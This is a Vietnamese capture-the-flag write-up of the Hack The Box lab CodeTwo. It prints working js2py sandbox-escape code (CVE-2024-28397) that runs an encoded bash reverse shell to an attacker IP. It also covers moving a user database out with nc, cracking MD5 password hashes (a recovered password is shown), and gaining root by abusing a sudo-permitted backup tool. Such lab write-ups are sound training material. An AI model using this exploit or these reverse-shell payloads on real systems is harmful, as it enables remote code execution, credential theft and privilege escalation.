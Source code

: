 ```yaml
---
title: HTB CodeTwo
published: 2025-09-03
tags: [HTB, Linux, Easy]
category: Writeups
author: Trohan0x00
draft: false
image: "/src/content/posts/assets/code2.png"
---
```


# HTB Labs: CodeTwo

## I. User_Flag
Bước ban đầu scan với nmap trước ta được 2 services
![image](https://hackmd.io/_uploads/B10CR8Lqlg.png)
Có vẻ như ssh ta chưa thể khai thác được gì nên giờ ta đến với web server
![image](https://hackmd.io/_uploads/B1SByD85gx.png)
Đây là một plaform giúp người dùng có thể code nhanh `Javascript` với `IDE` online trên máy chủ. Ta có các dir là `/login`, `/register` và `/download`. Ta sẽ thử reg và login một account để xem chức năng.
Sau một lúc tìm hiểu chức năng thì ta có thể tìm thấy lỗ hỏng `SSTI` ở trong `/dashboard` nơi để ta viết code
![image](https://hackmd.io/_uploads/S1lwlvUcxx.png)
Nhưng có vẻ đã bị sandbox, và filter hết tất cả các hàm có thể khai thác nên có lẽ ta cần download source app ở `/download` để có thể tìm thêm thông tin
![image](https://hackmd.io/_uploads/HknVWwU5ll.png)
ta thấy được source dùng thư viện `js2py`. Đây là thư viện giúp ta có thể code được code `Javascript` trong `Python` như đã thấy ở phía web server và đây cũng giải thích lý do vì sao server chạy `Jinja2` lại có thể code `Javascript` 
![image](https://hackmd.io/_uploads/SyU_R2Lclx.png)
Sau một lúc tìm kiếm, ta thấy được một `CVE-2024-28397` của thư viện này và có public poc [ở đây](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape)
Cụ thể lỗ hỏng này cho phép attacker có thẻ `escape` khỏi môi trường `javascript` để có thể `RCE` và thực hiện các lệnh injection ta có được `POC` khai thác và mình sẽ sửa lại một chút để tương thích với bài lab hơn
```javascript 
let cmd = "printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTQuNjQvNDQ0NCAwPiYxKQ==|base64 -d|bash"; 
let a = Object.getOwnPropertyNames({}).__class__.__base__.__getattribute__;  
let obj = a(a(a,"__class__"), "__base__");  
function findpopen(o) {  
    let result;    for(let i in o.__subclasses__()) {        let item = o.__subclasses__()[i];        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {            return item;        }        if(item.__name__ != "type" && (result = findpopen(item))) {            return result;        }    }}  
let result = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate();  
console.log(result);  
result;  
```
Ở `POC` chỉ lệnh `RCE` bình thường nhưng để thuận tiện khai thác mình sẽ thực hiện reverse shell về phía local với payload `(bash -i >& /dev/tcp/10.10.14.66/4444 0>&1)`
![image](https://hackmd.io/_uploads/BkQmTWw5ge.png)
Ta thành công lấy được shell ở local, check dir hiện tại thì đang ở `/home/app/app`, sau một lúc recon thì thấy được một file users.db ở dir `/home/app/app/instance/` có lẽ file này sẽ có thông tin hữu ích để có thể khai thác
Nhưng do shell ở target không có `sqlite3` để đọc dữ liệu nên ta sẽ dùng `nc` để chuyển về local 
![image](https://hackmd.io/_uploads/SyklRWw9xx.png)
Ta thành công get file về và dùng `sqlite3` để check, thấy rằng db có 2 bảng là `code_snippet` và `user`. Check `user` thì thấy các credential của user với `hashed passwd`
![image](https://hackmd.io/_uploads/SkvPkMv9ex.png)
Và ở phần source code ta biết được passwd sẽ được encrypt bằng `MD5` nên ta có thể dùng `John` để crack dễ dàng. Mình sẽ dùng wordlist `rockyou`
![image](https://hackmd.io/_uploads/H1kEGfv5ee.png)
Giờ ta đã có credential hoàn chỉnh `marco:swetangelbabylove` giờ thì có thể login với ssh server và lấy được `user_flag`
![image](https://hackmd.io/_uploads/H13uMMD9le.png)

## II. Root flag

Check với `sudo -l`, ta thấy có một process có thể run với toàn quyền `root` là `/usr/local/bin/npbackup-cli`. 
![image](https://hackmd.io/_uploads/BJ5oGfPcxl.png)
`npbackup-cli (Portable Network Backup Client)` đây là công cụ `CLI` để tạo và quản lý backup, hỗ trợ snapshot, restore, kiểm tra tính toàn vẹn, và housekeeping. Và file config mặc định sẽ là `npbackup.conf` cũng được tìm thấy ngay tại thư mục hiện tại
```config
conf_version: 3.0.1
audience: public
repos:
  default:
    repo_uri: 
      __NPBACKUP__wd9051w9Y0p4ZYWmIxMqKHP81/phMlzIOYsL01M9Z7IxNzQzOTEwMDcxLjM5NjQ0Mg8PDw8PDw8PDw8PDw8PD6yVSCEXjl8/9rIqYrh8kIRhlKm4UPcem5kIIFPhSpDU+e+E__NPBACKUP__
    repo_group: default_group
    backup_opts:
      paths:
      - /home/app/app/
      source_type: folder_list
      exclude_files_larger_than: 0.0
    repo_opts:
      repo_password: 
        __NPBACKUP__v2zdDN21b0c7TSeUZlwezkPj3n8wlR9Cu1IJSMrSctoxNzQzOTEwMDcxLjM5NjcyNQ8PDw8PDw8PDw8PDw8PD0z8n8DrGuJ3ZVWJwhBl0GHtbaQ8lL3fB0M=__NPBACKUP__
      retention_policy: {}
      prune_max_unused: 0
    prometheus: {}
    env: {}
    is_protected: false
groups:
  default_group:
    backup_opts:
      paths: []
      source_type:
      stdin_from_command:
      stdin_filename:
      tags: []
      compression: auto
      use_fs_snapshot: true
      ignore_cloud_files: true
      one_file_system: false
      priority: low
      exclude_caches: true
      excludes_case_ignore: false
      exclude_files:
      - excludes/generic_excluded_extensions
      - excludes/generic_excludes
      - excludes/windows_excludes
      - excludes/linux_excludes
      exclude_patterns: []
      exclude_files_larger_than:
      additional_parameters:
      additional_backup_only_parameters:
      minimum_backup_size_error: 10 MiB
      pre_exec_commands: []
      pre_exec_per_command_timeout: 3600
      pre_exec_failure_is_fatal: false
      post_exec_commands: []
      post_exec_per_command_timeout: 3600
      post_exec_failure_is_fatal: false
      post_exec_execute_even_on_backup_error: true
      post_backup_housekeeping_percent_chance: 0
      post_backup_housekeeping_interval: 0
    repo_opts:
      repo_password:
      repo_password_command:
      minimum_backup_age: 1440
      upload_speed: 800 Mib
      download_speed: 0 Mib
      backend_connections: 0
      retention_policy:
        last: 3
        hourly: 72
        daily: 30
        weekly: 4
        monthly: 12
        yearly: 3
        tags: []
        keep_within: true
        group_by_host: true
        group_by_tags: true
        group_by_paths: false
        ntp_server:
      prune_max_unused: 0 B
      prune_max_repack_size:
    prometheus:
      backup_job: ${MACHINE_ID}
      group: ${MACHINE_GROUP}
    env:
      env_variables: {}
      encrypted_env_variables: {}
    is_protected: false
identity:
  machine_id: ${HOSTNAME}__blw0
  machine_group:
global_prometheus:
  metrics: false
  instance: ${MACHINE_ID}
  destination:
  http_username:
  http_password:
  additional_labels: {}
  no_cert_verify: false
global_options:
  auto_upgrade: false
  auto_upgrade_percent_chance: 5
  auto_upgrade_interval: 15
  auto_upgrade_server_url:
  auto_upgrade_server_username:
  auto_upgrade_server_password:
  auto_upgrade_host_identity: ${MACHINE_ID}
  auto_upgrade_group: ${MACHINE_GROUP}
```
Hãy tưởng tượng sẽ thế nào nếu phần config thay vì chỉ backup ở dir là `/home/app/app` thì mình sẽ đổi lại thành `/root`? Vì vốn dĩ khi config target đã cho ta toàn quyền sudo với `npbackup-cli` thì ta có thể thực hiện việc backup toàn bộ thư mục root và sau đó `dump` ra dữ liệu mà ta cần
Và nên lưu ý, do file ban đầu ta không hề được cấp quyền `write` nên ta có thể xóa luôn file config ban đầu và tạo lại một file mới. Sau đó lưu lại bằng `sudo npbackup-cli -c npbackup.conf -b -f`

Giờ thì ta hoàn toàn có thể dump dễ dàng file `root.txt` ra `sudo npbackup-cli -c npbackup.conf -f --dump /root/root.txt`

![image](https://hackmd.io/_uploads/Hk_tvMD5ee.png)


